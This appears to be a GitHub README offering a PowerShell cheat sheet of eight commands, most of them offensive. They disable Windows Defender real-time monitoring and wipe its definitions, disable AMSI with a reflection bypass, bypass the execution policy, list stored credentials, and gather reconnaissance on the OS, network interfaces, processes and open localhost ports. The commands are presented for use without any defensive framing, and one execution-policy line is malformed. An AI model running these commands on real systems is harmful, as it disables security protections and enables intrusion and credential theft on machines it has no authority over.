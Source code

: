 ## 1. Disable Windows Defender Realtime Monitoring
This command disables Windows Defender's real-time monitoring.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
![Screenshot of disabling Windows Defender](./images/screenshot1.png)
---
## 2. Get Detailed OS Information
This command retrieves all properties of the operating system.
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
```
![Screenshot of Get-WmiObject command](./images/screenshot2.png)
---
## 3. Network Interface Information
This command retrieves network interface configuration, including IPv4 and IPv6 addresses.
```powershell
Get-NetIPConfiguration | Select-Object -Property InterfaceAlias, IPv4Address, IPv6Address, DNServer
```
![Screenshot of Network Interface Info](./images/screenshot3.png)
---
## 4. List Processes by CPU Usage
This command retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
![Screenshot of Get-Process command](./images/screenshot4.png)
---
## 5. Port Scanning (1-1024)
This command performs a basic port scan on localhost for ports 1 to 1024.
```powershell
1..1024 | ForEach-Object { $sock = New-Object System.Net.Sockets.TcpClient; $async = $sock.BeginConnect('localhost', $_, $null, $null); $wait = $async.AsyncWaitHandle.WaitOne(100, $false); if($sock.Connected) { $_ }; $sock.Close() }
```
![Screenshot of Port Scanning](./images/screenshot5.png)
---
## 6. Disable AMSI (Antimalware Scan Interface)
This command disables AMSI by manipulating internal PowerShell structures.
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
![First Screenshot for AMSI Disable](./images/screenshot6_1.png)
![Second Screenshot for AMSI Disable](./images/screenshot6_2.png)
---
## 7. Bypass Execution Policy Temporarily
This command temporarily bypasses the execution policy for running scripts and then reverts it.
```powershell
$policy = Get-ExecutionPolicy; Set-ExecutionPolicy -ExecutionPolicyBypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. List Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey/list
```
---
